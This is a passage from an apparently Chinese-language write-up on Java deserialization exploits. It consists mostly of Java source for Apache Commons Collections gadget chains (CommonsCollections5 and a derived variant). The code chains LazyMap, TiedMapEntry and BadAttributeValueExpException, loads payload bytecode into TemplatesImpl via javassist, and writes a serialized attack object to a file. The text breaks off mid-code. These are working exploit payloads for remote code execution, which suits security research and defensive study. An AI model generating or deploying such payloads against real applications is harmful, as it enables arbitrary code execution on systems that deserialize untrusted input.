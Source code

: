 ```
        //封装chained转换链
        ChainedTransformer chian = new ChainedTransformer(trans);
        //封装lazymap
        HashMap map = new HashMap();
        Map innerMap = LazyMap.decorate(map,chian);
        //构造外部的触发链触发varobj.tostring到达lazymap.get
        TiedMapEntry entry = new TiedMapEntry(innerMap, "tr1ple");
        BadAttributeValueExpException val  = new BadAttributeValueExpException(null);
        Field valField = val.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(val,entry); //将TiedMapEntry实例放进val属性，从而在反序列化还原后最终调用this.map.get
        //序列化
        File file;
        file =new File(System.getProperty("user.dir")+"/javasec-ysoserial/src/main/resources/commonscollections5.ser");
        ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream(file));
        obj.writeObject(val);
    `}`
`}`
```

**CommonsCollections5-1.java:（根据cc1特点生成的衍生版1）**

```
package CommonsCollections5;
import CommonsCollections4.payload;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;
import javassist.*;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;
public class exp1 `{`
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, NotFoundException, CannotCompileException, ClassNotFoundException `{`
        //封装TemplatesImpl实例
        TemplatesImpl tmp = new TemplatesImpl();
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(payload.class));
        CtClass pay_class = pool.get(payload.class.getName());
        byte[] payCode = pay_class.toBytecode();
        Class clazz;
        clazz =Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        //存储payload类
        Field byteCode = clazz.getDeclaredField("_bytecodes");
        byteCode.setAccessible(true);
        byteCode.set(tmp,new byte[][]`{`payCode`}`);
        Field name  = clazz.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(tmp,"tr1ple");
        //构造内部的转换链，与原版cc5不同的是此时constanTransformer返回不再是Runtime.class
        Transformer[] trans = new Transformer[]`{`
                new ConstantTransformer(TrAXFilter.class),
```